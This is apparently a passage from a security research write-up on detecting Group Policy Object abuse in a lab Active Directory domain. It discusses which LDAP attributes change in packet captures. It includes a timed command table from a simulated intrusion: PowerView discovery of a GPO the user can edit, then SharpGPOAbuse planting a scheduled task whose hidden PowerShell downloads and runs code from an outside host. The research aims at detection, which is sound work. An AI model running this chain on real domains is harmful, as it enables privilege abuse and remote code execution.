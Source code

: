 Notice first pcap screenshot when creating a scheduled task for the first time, it modifies GPO via LDAP to update **version** and **GPCUserExtensionNames** (If Scheduled task was added to Machine Settings, it would be GPCMachineExtensionNames), but if scheduled task already exists, operation does not need to update **GPCUserExtensionNames** value because it already exists.

Why does this matter?

Well this is just a long way of saying that GPCExtensionName is not a good indicator of compromise 



## [](#header-3)Simulation - Scheduled Task

Pcap - 2022-12-12-gpoproject.pcap

**Attacker**
- IP: 192.168.200.55
    - OS: Kali Linux

**Victim**
- IP: 192.168.200.11
    - OS: Windows Server 2019
    - OSVersion: 10.0.17763

- IP: 192.168.200.101
    - OS: Windows 10 Pro
    - OS Version: 19044.1706

**Tool**
- [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse/tree/d099eb9bc79059a2bfd25a30802bb73cf913d52f)


| Time | Command | Description |
|:----|:---|:---|
| 2022-12-13T04:59:38+00:00 | N/A | Initial Compromise (c2 beacon start) |
| 2022-12-13T05:00:23+00:00 | `getuid` | get userid |
| 2022-12-13T05:02:13+00:00 | `powershell import powerview` | import load powerview library |
| 2022-12-13T05:02:43+00:00 | `convert-nameToSid f1/john` | convert name of user to SID |
| 2022-12-13T05:03:27+00:00 | `get-domaingpo | get-objectacl | where SecurityIdentifier -eq "S-1-5-21-2941969941-1997400234-677688552-1106"` | find a gpo which current user has some privilege over |
| 2022-12-13T05:05:58+00:00 | `get-domainou -gplink 51461F5B-D5BE-42DA-B879-34DDF09BAC5F` | find OU that is linked to the found GPO |
| 2022-12-13T05:09:53+00:00 | `(get-domainsearcher -domain "f1.ad.lab.ch" -LdapFilter "objectclass=user" -searchbase "OU=Finance,OU=F1 Users,DC=f1,DC=ad,DC=lab,DC=ch").finadll() | where-object {$_} | ForEach-Object { write-output "$($_.properties.distinguishedname) - $((get-domaingroup -MemberIdentity $_.properties.distinguishedname | select-object -expandproperty samaccountname) -join ',')" }` | Find users in the OU which vulnerable GPO is linked to |
| 2022-12-13T05:14:35+00:00 | `execute-assembly /home/kali/Downloads/SharpGPOAbuse.exe --AddUserTask --TaskName "Evil Task" --Author F1\John --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://100.100.100.100:80/a'))\"" --GPOName "Finance User GPO"` | Utilize SharpGPOAbuse to inject a scheduled task |

---


> From now on, since I have already demonstrated the full simulation, rest of pcaps will be strictly about execution. No Discovery commands. 

## [](#header-2)Simulation - Scheduled Task already exists
Pcap - 2022-12-20-gpoproject-benign_scheduledtask.pcap
